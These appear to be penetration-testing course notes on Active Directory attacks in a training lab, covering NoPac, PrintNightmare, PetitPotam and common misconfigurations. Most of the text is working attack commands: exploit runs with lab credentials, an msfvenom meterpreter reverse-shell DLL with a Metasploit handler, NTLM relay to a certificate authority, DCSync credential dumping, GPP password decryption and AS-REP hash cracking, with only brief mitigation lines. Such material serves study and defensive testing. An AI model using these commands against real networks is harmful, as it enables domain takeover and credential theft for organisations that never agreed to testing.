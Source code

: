 # Bleeding Edge Vulnerabilities & Misconfigurations in Active Directory Lateral Movement

---

## Introduction

Many organizations delay patching and overlook configuration best practices, leaving them exposed to high-impact vulnerabilities and misconfigurations. This section covers both recent, high-profile attacks (NoPac, PrintNightmare, PetitPotam) and a range of common but critical misconfigurations. Each is mapped to the tools and commands used for detection and exploitation, with technical details and concise explanations.

---

## Scenario Setup

- **Linux attack host:** SSH into ATTACK01.
- **Windows attack host:** Use MS01 for Rubeus/Mimikatz demos.
- **Switching platforms:** Use RDP for Windows, SSH from Windows to Linux as needed.
- **All tools referenced are open-source and available on GitHub.**

---

## 1. Bleeding Edge Vulnerabilities

### 1.1 NoPac (SamAccountName Spoofing)
- **CVE-2021-42278 & CVE-2021-42287**
- **Impact:** Privilege escalation from any standard domain user to Domain Admin.
- **Technique:** Change a computer account's SamAccountName to match a DC, then request Kerberos tickets as the DC.
- **Pre-requisite:** `ms-DS-MachineAccountQuota > 0` (default: 10).

**Key Commands:**
```bash
# Install tools
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket && python setup.py install
git clone https://github.com/Ridter/noPac.git

# Scan for vulnerability
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap

# Exploit
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap

# DCSync
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```
**Mitigation:** Set `ms-DS-MachineAccountQuota` to 0, patch DCs.

---

### 1.2 PrintNightmare (CVE-2021-34527 & CVE-2021-1675)
- **Impact:** RCE and privilege escalation via Print Spooler service.
- **Technique:** Remote SYSTEM shell or relay attacks on unpatched hosts.

**Key Commands:**
```bash
# Clone exploit and install Impacket
git clone https://github.com/cube0x0/CVE-2021-1675.git
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket && python3 ./setup.py install

# Check for Print Spooler exposure
rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

# Generate DLL payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll

# Host DLL
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Start handler (Metasploit)
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.5.225
set LPORT 8080
run

# Run exploit
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```
**Mitigation:** Patch all hosts, disable Print Spooler where not needed.

---

### 1.3 PetitPotam (CVE-2021-36942, MS-EFSRPC)
- **Impact:** LSA spoofing, NTLM relay to AD CS, domain compromise.
- **Technique:** Relay DC authentication to vulnerable CA, obtain certificate, perform DCSync.

**Key Commands:**
```bash
# Start ntlmrelayx.py targeting AD CS
sudo ntlmrelayx.py -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController

# Trigger authentication from DC
python3 PetitPotam.py 172.16.5.225 172.16.5.5

# Request TGT for DC using gettgtpkinit.py
python3 /opt/PKINITtools/gettgtpkinit.py INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$ -pfx-base64 <base64cert> dc01.ccache
export KRB5CCNAME=dc01.ccache

# DCSync with secretsdump.py
secretsdump.py -just-dc-user INLANEFREIGHT/administrator -k -no-pass "ACADEMY-EA-DC01$"@ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
**Mitigation:** Patch for CVE-2021-36942, harden AD CS, restrict templates, monitor for relaying.

---

## 2. Common Misconfigurations & Attacks

### Table: Misconfigurations, Vulnerabilities, and Attacks (with Example Commands)

| Misconfiguration / Vulnerability                | Attack / Abuse / Outcome                                 | Example Commands / Tools                                                                                   |
|------------------------------------------------|----------------------------------------------------------|------------------------------------------------------------------------------------------------------------|
| **Exchange Windows Permissions group**          | DCSync privilege escalation, domain compromise           | `net group "Exchange Windows Permissions" /domain`<br>BloodHound<br>PowerView                              |
| **PrivExchange (Exchange PushSubscription flaw)**| Relay Exchange auth to LDAP, dump NTDS, DA access        | `python3 privexchange.py -u user -p pass -d domain -t <exchange-server>`                                   |
| **Organization Management group**               | Full Exchange/OU control, mailbox access                 | `net group "Organization Management" /domain`<br>BloodHound                                                |
| **Print Spooler enabled (MS-RPRN bug)**         | Printer Bug: NTLM relay to LDAP, DCSync, RBCD            | `rpcdump.py @<target-ip> \| grep MS-RPRN`<br>`Import-Module .\SecurityAssessment.ps1; Get-SpoolStatus -ComputerName <DC>`<br>`python3 SpoolSample.py <attacker-ip> <target-ip>` |
| **Unpatched MS14-068**                          | Kerberos PAC forgery, escalate to Domain Admin           | `python ms14-068.py -u user -p pass -d domain -s <dc-ip>`                                                  |
| **Weak/default LDAP credentials in devices**    | Credential sniffing, initial foothold                    | `nc -lvp 389`<br>Change LDAP IP in device/printer config                                                   |
| **AD DNS zone readable by users**               | DNS record enumeration, host discovery                   | `adidnsdump -u inlanefreight\\forend ldap://172.16.5.5`<br>`adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r` |
| **Passwords in user Description/Notes fields**  | Credential discovery, lateral movement                   | `Get-DomainUser * \| Select-Object samaccountname,description \| Where-Object {$_.Description -ne $null}`                             |
| **PASSWD_NOTREQD flag set on accounts**         | Weak/no password, easy brute-force or login              | `Get-DomainUser -UACFilter PASSWD_NOTREQD \| Select-Object samaccountname,useraccountcontrol`                     |
| **SYSVOL/scripts readable by all**              | Passwords in scripts, privilege escalation               | `ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts`<br>`cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs` |
| **GPP cpassword in SYSVOL**                     | Decrypt local admin passwords, lateral movement          | `gpp-decrypt <cpassword>`<br>`crackmapexec smb -M gpp_password`<br>`Get-GPPPassword.ps1`                   |
| **Registry.xml in SYSVOL**                      | Autologon credentials, lateral movement                  | `crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin`<br>`Get-GPPAutologon.ps1`            |
| **Do not require Kerberos pre-auth (UAC flag)** | ASREPRoasting: offline password cracking                 | `.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`<br>`GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users`<br>`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt` |
| **GPOs with weak ACLs**                         | GPO abuse: add local admin, run code, persistence        | `Get-DomainGPO \| select displayname`<br>`Get-DomainGPO \| Get-ObjectAcl`<br>`SharpGPOAbuse.exe --AddLocalAdmin /GPOName:<GPO> /User:<user>`<br>BloodHound |
| **Password reuse across accounts**              | Lateral movement, privilege escalation                   | `crackmapexec smb ... --local-auth`<br>Password spraying tools                                              |
| **Unconstrained/Constrained Delegation**        | Ticket theft, lateral movement, privilege escalation     | BloodHound<br>Rubeus<br>Impacket tools                                                                      |
| **AD CS misconfigurations**                     | ESC1-8 attacks, domain persistence/compromise            | `certipy`<br>ADCS enumeration scripts                                                                       |

---

### Example: Enumerating for Printer Bug (MS-RPRN) in PowerShell

```powershell
Import-Module .\SecurityAssessment.ps1
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```

### Example: Enumerating DNS Records with adidnsdump

```bash
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```

### Example: Finding Passwords in Description Field

```powershell
Get-DomainUser * | Select-Object samaccountname,description | Where-Object {$_.Description -ne $null}
```

### GPP Password Decryption

```bash
gpp-decrypt <cpassword>
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_password
```

### ASREPRoasting

#### Method 1: PowerView + Rubeus + Hashcat

```powershell
# 1. Enumerate users with pre-auth not required
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

# 2. Extract AS-REP hash
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

```bash
# 3. Crack hash offline
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt
```
